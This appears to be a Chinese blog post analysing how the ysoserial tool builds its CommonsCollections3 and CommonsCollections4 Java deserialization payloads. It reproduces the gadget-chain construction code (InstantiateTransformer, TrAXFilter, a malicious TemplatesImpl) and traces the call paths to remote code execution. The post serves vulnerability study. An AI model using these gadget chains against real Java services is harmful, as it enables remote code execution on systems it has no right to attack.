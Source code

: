 ```yaml
---
title: Ysoserial工具解读（三）
date: 2019-10-31 11:21:05
tags: [Java, RCE,反序列化]
categories: 漏洞分析
cover: java_cover.png
---
```


前面两篇已经介绍了不少基础知识，接下来可以加快分析的速度了。今天分析CommonsCollections3.java和CommonsCollections4.java中用到的类，主要是`InstantiateTransformer`类和`TrAXFilter`类。

<!-- more -->

## CommonsCollections3的Payload构造方式

```java
/*	先贴代码为敬：
*/

import javax.xml.transform.Templates;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections.functors.InstantiateTransformer;

public Object getObject(final String command) throws Exception {
    Object templatesImpl = Gadgets.createTemplatesImpl(command);

    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(TrAXFilter.class),
        // 这里不再是InvokeTransformer类，而是InstantiateTransformer类
        new InstantiateTransformer(
            new Class[] { Templates.class },
            new Object[] { templatesImpl } )};

    // 这部分代码和CommonsCollection1完全一样
    // inert chain for setup
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    final Map innerMap = new HashMap();
    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); // arm with actual transformer chain

    return handler;
}
```

既然上面的代码段内主要用到`InstantiateTransformer`类和`TrAXFilter`类，那就看看它们的具体内容。

### `InstantiateTransformer`类

这个调用链前半部分和CommonsCollections1的一样哈，也就是`AnnotationInvocationHandler.readObject() -> Map$Proxy.entrySet() ->					AnnotationInvocationHandler.invoke() ->	LazyMap.get() -> ChainedTransformer.transform() `

我们之前分析过`ConstantTransformer`类的`transform()`方法：

```java
/*	ConstantTransformer.java
*/

public ConstantTransformer(Object constantToReturn) {
    super();
    iConstant = constantToReturn;
}

// 即不管输入参数是什么，都返回初始化时传入的iConstant字段值
public Object transform(Object input) {
    return iConstant;
}
```

在本例中，`ConstantTransformer.transform()`的返回对象就是个`TrAXFilter`类。它将被传入`InstantiateTransformer.transform()`中，贴一下有关代码：

```java
/*	InstantiateTransformer.java
*/
public class InstantiateTransformer implements Transformer, Serializable {

    /** 构造函数的参数类型数组 */
    private final Class[] iParamTypes;
    /** 构造函数的参数值数组 */
    private final Object[] iArgs;
    
    public InstantiateTransformer(Class[] paramTypes, Object[] args) {
        super();
        // 根据payload构造代码这里的参数类型是javax.xml.transform.Templates类
        iParamTypes = paramTypes;
        // 根据payload构造代码这里传入的是恶意的templatesImpl对象
        iArgs = args;
    }
    
    public Object transform(Object input) {
        try {
            if (input instanceof Class == false) {
                throw new FunctorException(
                    "InstantiateTransformer: Input object was not an instanceof Class, it was a "
                        + (input == null ? "null object" : input.getClass().getName()));
            }
            // 获取输入类的构造函数,也就是TrAXFilter的构造函数
            Constructor con = ((Class) input).getConstructor(iParamTypes);
            // 创建一个输入类的实例,即将templatesImpl对象作为入参传给TrAXFilter的构造函数
            return con.newInstance(iArgs);

        } 
        * * * *
    }
```
于是，恶意的`templatesImpl`对象就被传入了`TrAXFilter`类的构造函数：

### `TrAXFilter`类

```java
/*	TrAXFilter.java
*/
public TrAXFilter(Templates templates)  throws
    TransformerConfigurationException
{
    _templates = templates;
    _transformer = (TransformerImpl) templates.newTransformer();
    * * * *
}
```

接下来的故事就跟CommonsCollections2里分析的一模一样了，因此CommonsCollections3可以看作是前两个payload构造方法的结合产物。

## CommonsCollections4的Payload构造方式

```java
public Queue<Object> getObject(final String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    ConstantTransformer constant = new ConstantTransformer(String.class);

    Class[] paramTypes = new Class[] { String.class };
    Object[] args = new Object[] { "foo" };
    InstantiateTransformer instantiate = new InstantiateTransformer(
        paramTypes, args);

    // grab defensively copied arrays
    paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");
    args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");

    ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });

    // create queue with numbers
    PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));
    queue.add(1);
    queue.add(1);

    // 利用反射机制方式实现ConstantTransformer的初始化
    // 效果同 ConstantTransformerconstant= new ConstantTransformer(TrAXFilter.class)
    Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
    // 利用反射机制方式实现InstantiateTransformer的初始化
    // 效果同 InstantiateTransformer instantiate= new InstantiateTransformer(new Class[] { Templates.class },new Object[] { templatesImpl } )    
    paramTypes[0] = Templates.class;
    args[0] = templates;

    return queue;
}
```

这个构造方法可以看做是CommonsCollections2的变种，因此它们前半段的调用链也是相同的：`PriorityQueue.readObject() -> heapify() -> siftDown() -> siftDownUsingComparator() -> TransformingComparator.compare() -> ChainedTransformer.transform() `；该构造方式后半部分用的是和CommonsCollections3一样的类，不过利用反射机制实现初始化，因此调用链也一样，这里不再详述。
